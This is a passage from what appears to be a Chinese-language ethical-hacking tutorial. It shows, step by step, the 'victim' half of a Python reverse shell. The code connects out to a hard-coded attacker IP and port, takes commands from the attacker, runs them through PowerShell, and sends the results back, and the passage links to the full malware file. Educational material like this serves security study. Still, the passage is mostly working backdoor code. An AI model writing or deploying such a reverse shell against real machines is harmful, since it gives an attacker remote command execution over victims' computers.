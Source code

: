 print("发生异常")

hacker_socket.close()

在受害者端，我们将接收到黑客发送的命令，使用`subprocess`模块执行命令，最后将结果发送回黑客。这部分将在 Windows 10 机器上进行编码。让我们在 Windows 机器上创建一个新项目，并尝试按照相同的步骤与黑客程序建立连接：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

victim_socket.connect(hacker_address)

正如我们在黑客程序中看到的，我们有一个`while`循环来持续发送命令，下面我们也会采用类似的方法：

data = victim_socket.recv(1024)

hacker_command = data.decode()

我们将添加一个类似的退出条件，就像我们在黑客程序中做的那样：

if hacker_command == "stop":

break

接下来，我们在受害者计算机上运行命令，并以字符串格式获取结果，如下所示：

output = subprocess.run(["powershell.exe", hacker_command], shell=True, capture_output=True)

`powershell.exe` 确保我们在 Windows 中使用 PowerShell 运行命令。`capture_output=True` 确保我们将结果接收在`output`变量中。

接下来，我们需要检查错误。如果命令执行期间发生错误，我们需要妥善处理，以免程序崩溃，否则我们会将结果发送回给黑客：

if output.stderr.decode("utf-8") == "":

command_result = output.stdout

else:

command_result = output.stderr

第一个条件检查是否在命令执行过程中没有错误，如果没有错误，我们将`command_result`变量设置为命令的输出，否则将`command_result`设置为错误。请注意，默认情况下这是以字节形式呈现的，因此我们不需要对其进行编码就能通过网络发送：

victim_socket.send(command_result)

最后，我们需要将所有命令执行代码放在`try-catch`块中，以处理任何异常并确保正确关闭套接字。完整的程序可以在这里找到：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py)。

让我们尝试在受害者机器上运行一些命令，并获取结果。首先，启动黑客程序，然后运行受害者程序。在黑客程序中输入命令，并查看其中包含的结果：
